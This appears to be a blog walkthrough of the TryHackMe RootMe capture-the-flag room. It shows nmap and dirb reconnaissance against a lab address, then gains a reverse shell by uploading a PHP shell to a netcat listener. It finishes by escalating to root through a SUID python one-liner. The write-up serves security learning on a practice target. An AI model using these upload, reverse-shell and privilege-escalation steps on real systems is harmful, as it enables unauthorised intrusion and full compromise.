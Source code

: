 ```yaml
---
title: "THM RootMe Walkthrough"
date: 2021-05-07T14:50:28+01:00
draft: false
description: "A walkthrough to the RootMe Room on TryHackMe."

tags: ["hacking", "web", "walkthrough", "privesc"]
categories: ["TryHackMe Walkthroughs"]

---
```


One of the best ways to learn ethical hacking is to practice it. So below is a walkthrough of the [RootMe Room on THM](https://tryhackme.com/room/rrootme)

# Reconnaissance

## Nmap
As with most machines, I began with an Nmap scan - which answers the first few questions. 

I firstly scanned with sV to determine the software versions, however as the target wouldn't respond to host discovery, I had to disable it using the -Pn option.

```sh
$ nmap -sV -Pn 10.10.130.205
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 20:08 BST
Nmap scan report for 10.10.130.205
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
```

## Directory Searching

Next we had to preform a directory brute force, so I started dirb.

```sh
$ dirb http://10.10.130.205

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May  3 20:09:00 2021
URL_BASE: http://10.10.130.205/
WORDLIST_FILES: /data/data/com.termux/files/usr/share/dirb/wordlists/common.txt

-----------------
GENERATED WORDS: 4612

---- Scanning URL: http://10.10.130.205/ ----
                                                                                    ==> DIRECTORY: http://10.10.130.205/css/
+ http://10.10.130.205/index.php (CODE:200|SIZE:616)
==> DIRECTORY: http://10.10.130.205/js/
==> DIRECTORY: http://10.10.130.205/panel/
```

# Getting a Shell

From the recon above, we discover the page /panel/ and when we navigate to that page, we are presented with a file upload area.

Now I wondered if we could upload a shell and as we know the server runs Apache I grabbed the [Pentest Monkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Firstly, we setup a netcat listener ready to receive the shell on the attacking machine.

```sh
$ nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Next I edited line 49 of the shell to match my attacking machine's IP address and uploaded it to the website.

Once we uploaded the file, we are provided with a success message; it says Veja - which means go. So if you click on the link it will open the file, this will cause the page to freeze.

Now we return to the netcat listener and we have received a shell and can find the user flag.

# Privilege Escalation

Now we have found the user flag, we need to escalate our privileges. To do this, I used to find files with a SUID bit.

```sh
find / -perm /4000 2>/dev/null
```

From that, you need to look at the list and see if there are any unusual files. Unfortunately, this step needs experience for you to know what is unusual; therefore I advise that you enter the file names into [GTFObins](https://gtfobins.github.io/) and looking for SUID exploits.

After running down the list, you discover that python has a SUID vulnerability, so now you run it on the reverse shell.

Once the exploit is complete, I use the whoami command to check it worked

```sh
usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

From here you need to find the root flag by outputting the file in the root users home directory.
